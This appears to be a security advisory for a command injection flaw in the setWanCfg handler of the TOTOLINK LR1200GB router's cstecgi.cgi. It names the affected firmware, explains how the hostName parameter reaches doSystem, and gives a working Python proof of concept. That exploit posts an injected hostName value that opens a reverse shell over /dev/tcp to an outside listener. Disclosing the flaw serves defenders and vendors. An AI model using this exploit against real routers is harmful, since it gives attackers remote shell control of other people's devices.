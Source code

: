 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setWanCfg` handler function of  `cstecgi.cgi`. When the value of `proto` parameter !=6,
the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.


`proto` parameter:

![code2](./code2.png)

`hostName` parameter:

![code1](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setWanCfg",
    "token": "00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)
